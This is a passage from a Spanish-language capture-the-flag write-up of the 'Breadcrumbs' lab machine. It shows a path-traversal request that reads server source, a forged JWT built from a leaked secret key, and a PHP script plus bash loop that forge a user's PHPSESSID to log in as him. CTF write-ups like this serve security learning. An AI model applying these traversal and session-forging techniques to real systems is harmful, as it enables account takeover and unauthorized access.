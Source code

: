 ![secret_key](/assets/img/Linux/Breadcrumbs/secret_key.png)

Obtenemos una secret key del usuario Paul 

`secret key = 6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e` 

Si miramos atentamente es JWT, asi que podemos crear un token JWT para pretender que somos Paul.

* | [https://jwt.io/](https://jwt.io/)

![Token](/assets/img/Linux/Breadcrumbs/Token.png)


`Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoicGF1bCJ9fQ.4mJguG8tRd2z_feWJpmr_J3AdMeDPvW7GCK7cW7o0AI`


Ahora necesitaremos el PHPSESSID, para esto verificaremos la siguiente ruta: 

`book=../portal/cookie.php&method=1 `

![cookie](/assets/img/Linux/Breadcrumbs/cookie.png)

Atento al mensaje, nos aconsejan no usar el default PHPSESSID, sin embargo, ese codigo, tenemos lo necesario para armar el nuestro, El phpsessid se crea mediante un string de hash md5 utilizando el nombre de usuario(mas arriba, en el portal tenemos una serie de usuarios "Admins", pero como hemos encontrado un secret key de paul, El sera nuestro target)

```php
<?php
$username = "paul";
$max = strlen($username) -1;
$seed = rand(0, $max);
$key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
$cookie = $username.md5($key);
echo $cookie;
?>
```



Nota: No me cruxifiquen por no usar una funcion.

![paul_cookie](/assets/img/Linux/Breadcrumbs/paul_cookie.png)

Aparentemente funciona :skull: procederemos a generar varios:

```bash
for i in {0..10};do php cookie.php;echo '';sleep 1;done
```

![cookie2](/assets/img/Linux/Breadcrumbs/cookie2.png)

# Foothold : Portal autentication Paul

Ahora vamos a loguearnos como Paul con una de esas cookies.

![Paul_Portal](/assets/img/Linux/Breadcrumbs/Paul_Portal.png)
